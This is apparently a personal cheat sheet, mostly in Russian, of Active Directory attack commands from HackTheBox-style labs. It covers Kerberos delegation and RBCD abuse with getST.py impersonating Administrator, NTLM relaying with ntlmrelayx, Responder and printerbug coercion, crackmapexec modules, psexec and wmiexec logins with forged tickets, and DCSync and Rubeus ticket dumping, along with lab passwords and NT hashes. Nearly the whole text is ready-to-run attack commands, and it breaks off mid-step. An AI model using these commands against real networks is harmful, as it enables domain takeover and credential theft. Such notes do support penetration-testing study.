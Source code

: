   		Получаем TGT TGS self and Proxy. Запрашивает тикет от имени фейкового хоста с ипмперсонификацией
		далее
		getST.py -spn cifs/DC01.inlanefreight.local -impersonate Administrator -dc-ip 10.129.205.35 inlanefreight.local/HACKTHEBOX:'Hackthebox123!'
  		
		getST.py -spn cifs(ldap)/sql.domain.local -impersonate Administrator -dc-ip 192.168.134.10 domain.local/HACK:Password123

  *** и логинимся с тикетом

  		export KRB5CCNAME=administrator.ccache
		psexec.py -k -no-pass dc01.inlanefreight.local
  		Psexec.py -k -no-pass sql.domain.local -dc-ip 192.168.134.11
		wmiexec.py DC01.INLANEFREIGHT.LOCAL -k -no-pass
  		или dcsync

  * (RBCD from LINUX через ntlmrelay) по умолчанию компьютер может редактировать свои собственные msDS-AllowedToActOnBehalfOfOtherIdentityатрибут!!!
 
    		sudo ntlmrelayx.py -t ldap://172.16.117.3 -smb2support --no-da --no-acl --add-computer 'plaintext$' (добавляем компутер в домен)
    		sudo ntlmrelayx.py -t ldap://172.16.117.3 -smb2support --escalate-user 'plaintext$' --no-dump -debug (повышение привелегий)
    		crackmapexec smb 172.16.117.3 -u anonymous -p '' -M drop-sc -o URL=https://172.16.117.30/testing FILENAME=@secret (включаем webdaw)
    		crackmapexec smb 172.16.117.0/24 -u plaintext$ -p o6@ekK5#rlw2rAe -M webdav (проверяем где включился)
    		sudo python3 Responder.py -I ens192 (для коонтроля smb and http = off)
    		sudo ntlmrelayx.py -t ldaps://INLANEFREIGHT\\'SQL01$'@172.16.117.3 --delegate-access --escalate-user 'plaintext$' --no-smb-server --no-dump   (добавляем RBCD на SQL01$)
    		python3 printerbug.py inlanefreight/plaintext$:'o6@ekK5#rlw2rAe'@172.16.117.60 LINUX01@80/print (вызывае аутентификацию -- LINUX01@80/print -то что ловится Responderom)
		findDelegation.py INLANEFREIGHT.LOCAL/administrator -hashes aad3b435b51404eeaad3b435b51404ee:d1e532fdcdea711011a6b13bcf390401  (проверяем сработало ли)
    		getST.py -spn cifs/sql01.inlanefreight.local -impersonate Administrator -dc-ip 172.16.117.3 "INLANEFREIGHT"/"plaintext$":"xw{4tWh4sT^+q-$"  (заказываем TGS)
    		KRB5CCNAME=Administrator.ccache psexec.py -k -no-pass sql01.inlanefreight.local (Заходим)

--------------------------------------------------------------------------
  		Sudo certipy-ad auth -pfx sql.pfx -domain domain.local -dc-ip 192.168.134.10 (DC) -ldap-shell
  				set_rbcd SQL$ HACK$
				перед этим создаем фейковый хост
  				addcomputer.py -computer-name 'HACKTHEBOX$' -computer-pass Hackthebox123+\! -dc-ip 10.129.205.35 inlanefreight.local/carole.holmes 
--------------------------------------------------------------------------
    		
**** RBCD из Linux, когда MachineAccountQuota установлен на 0 но пользователь с правами на изменение acl
		получаем хеш пароля
		pypykatz crypto nt 'Y3t4n0th3rP4ssw0rd'

		

* DCSYNC

		Rubeus triage
  		Rubeus dump
		билет в файл и убираем пробелы
затем
